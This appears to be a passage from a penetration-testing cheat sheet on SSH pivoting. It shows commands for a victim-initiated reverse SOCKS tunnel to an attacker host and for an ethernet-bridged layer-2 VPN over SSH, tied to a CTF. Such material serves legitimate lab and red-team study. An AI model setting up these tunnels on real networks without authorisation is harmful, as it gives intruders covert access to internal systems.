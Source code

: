 

### Remote Dynamic Forwarding

* Attacker's IP: `10.10.13.37`
* Victims's IP: `10.10.13.38`

An example how to safely set remote dynamic port forwarding (SOCKS) with a builin SSH client.

Generate a dummy SSH key on Victim:

```
alice@victim:~$ ssh-keygen -f dummy_key -t ed25519 -q -N ""
```

Add `dummy_key.pub` contents to `authorized_keys` on Attacker with the following options:

```
snovvcrash@attacker:~$ vi ~/.ssh/authorized_keys
from="10.10.13.38",command="echo 'Only port forwarding is allowed'",no-agent-forwarding,no-X11-forwarding,no-pty <DUMMY_KEY_PUB>
```

Connect to Attacker's SSH server from Victim:

```
alice@victim:~$ ssh -fN -R 1080 -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null -i dummy_key snovvcrash@10.10.13.37
```



### L2 VPN over SSH

- [[YouTube] HTB Business CTF 2022: Dirty Money - The Day Before](https://youtu.be/PexfXIrgocA?t=4993)

Allow tunneling in SSH server config on Victim:

```
root@victim:~$ sudo vi /etc/ssh/sshd_config
...uncomment "PermitTunnel = yes"...
root@victim:~$ sudo service sshd restart
```

Connect to Victim building a Ethernet tunnel:

```
snovvcrash@attacker:~$ sudo ssh -oTunnel=ethernet -w0:0 root@192.168.1.11
```

Enable tap interfaces on both ends:

```
root@victim:~$ sudo ip link set tap0 up
snovvcrash@attacker:~$ sudo ip link set tap0 up
```

Put Victim's interface and tap into bridge:

```
root@victim:~$ sudo ip link add br0 type bridge
root@victim:~$ sudo ip link set eth0 master br0
root@victim:~$ sudo ip link set tap0 master br0
root@victim:~$ sudo ip link set br0 up
```
